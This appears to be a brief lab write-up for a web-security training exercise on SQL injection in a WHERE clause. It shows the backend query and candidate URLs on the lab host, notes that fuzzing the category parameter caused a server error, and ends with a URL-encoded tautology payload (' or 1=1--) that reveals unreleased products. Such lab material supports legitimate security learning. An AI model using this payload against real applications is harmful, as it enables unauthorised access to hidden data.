 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Target : To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

Backend query : `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Analysis :

URLs might be vulnerable

- <https://0a65000e038327f78326100d00f700c2.web-security-academy.net/product?{productId=13}>

- <https://0a65000e038327f78326100d00f700c2.web-security-academy.net/filter?{category=Clothing%2c+shoes+and+accessories}>

fuzzing the category parameter raises internal server error so it's indecatin for a vulnerability

`/filter?category=+'+or+1%3d1--+%23+--` -> payload
